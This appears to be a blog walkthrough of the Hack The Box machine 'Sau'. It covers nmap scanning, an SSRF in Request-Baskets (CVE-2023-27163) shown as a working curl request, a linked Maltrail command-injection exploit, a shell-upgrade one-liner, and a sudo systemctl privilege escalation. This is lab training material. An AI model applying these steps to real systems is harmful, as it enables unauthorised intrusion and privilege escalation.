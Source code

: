 ```yaml
---
title: HTB - Sau
date: 2024-01-06 00:00:00 + 1000
categories: [CTF,HTB]
tags: [htb,command-injection,cve-2023-27163,ssrf,request-baskets]
comments: false
---
```


Sau is easy rated Hack The Box machine, Sharing a walkthrough based on notes I took a while back. They might be a bit rough, but hopefully still helpful. 

## Common Enumeration 
### Nmap
I started by running an `nmap -p- -sC -sV -oA recon/nmap --open 10.10.11.224` scan which found two open ports:

- Port 22 (SSH)
- Port 55555

```bash
$ nmap -p- -sC -sV -oA recon/nmap --open 10.10.11.224
Nmap scan report for 10.10.11.224
Host is up (0.26s latency).
Not shown: 55545 closed tcp ports (reset), 9988 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa:88:67:d7:13:3d:08:3a:8a:ce:9d:c4:dd:f3:e1:ed (RSA)
|   256 ec:2e:b1:05:87:2a:0c:7d:b1:49:87:64:95:dc:8a:21 (ECDSA)
|_  256 b3:0c:47:fb:a2:f2:12:cc:ce:0b:58:82:0e:50:43:36 (ED25519)
55555/tcp open  unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Wed, 27 Dec 2023 08:29:14 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request                                                                                                                                         
|   GetRequest:                                                                                                                                       
|     HTTP/1.0 302 Found                                                                                                                              
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Wed, 27 Dec 2023 08:28:37 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Wed, 27 Dec 2023 08:28:38 GMT
|_    Content-Length: 0

```

### Service Enumeration on Port 55555

On port 55555, I found that the service running is `Request-Basket` version 1.2.1.

![img](/assets/img/Sau/Pastedimage20231227200243.webp)

### Vulnerability Discovery and Exploitation

After some googling, I found that `Request-Basket` version 1.2.1 is vulnerable to Server-Side Request Forgery (SSRF) identified as [CVE-2023-27163](https://gist.github.com/b33t1e/3079c10c88cad379fb166c389ce3b7b3). This can be exploited via the `/api/baskets/{name}` endpoint. I created a new basket named `testing123`.

```bash
curl -X POST -d '{"forward_url": "http://127.0.0.1:80/login","proxy_response": true,"insecure_tls": false,"expand_path": true,"capacity": 250}' -H
'Content-Type: application/json' http://10.10.11.224:55555/api/baskets/testing123 -v
```

![img](/assets/img/Sau/Pastedimage20231227205610.webp)

To verify if the forwarding worked, I ran the following `curl` command:

```bash
curl http://10.10.11.224:55555/testing123 -v
```

This found that the server is running `Maltrail` version 0.53.

![img](/assets/img/Sau/Pastedimage20231227205759.webp)
### Exploiting Maltrail for Remote Code Execution

I found a [weaponized exploit](https://github.com/spookier/Maltrail-v0.53-Exploit) for `Maltrail` v0.53 that leverages an unauthenticated OS command injection vulnerability in the `username` parameter

![img](/assets/img/Sau/Pastedimage20231227211104.webp)

Using this exploit, I was able to gain a shell as the `puma` user.

![img](/assets/img/Sau/Pastedimage20231227211027.webp)

## Shell as puma

I upgraded my shell using Python to make it more stable:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
CTRL+Z
stty raw -echo; fg
export TERM=xterm
```

### User Flag Capture

Got the `user.txt` flag

```text
puma@sau:~$ cat user.txt                                                                                                                                         
86****************************e8
```

## Privilege Escalation

For privilege escalation, I first checked for any low-hanging fruit. I found that the `puma` user could run `/usr/bin/systemctl status trail.service` with sudo permissions. So, I ran the command with sudo privileges:

```bash
sudo /usr/bin/systemctl status trail.service
```

![img](/assets/img/Sau/Pastedimage20231227212311.webp)

### Root Flag

Then, got the `root.txt` flag

```text
# cat /root/root.txt
26****************************02
```

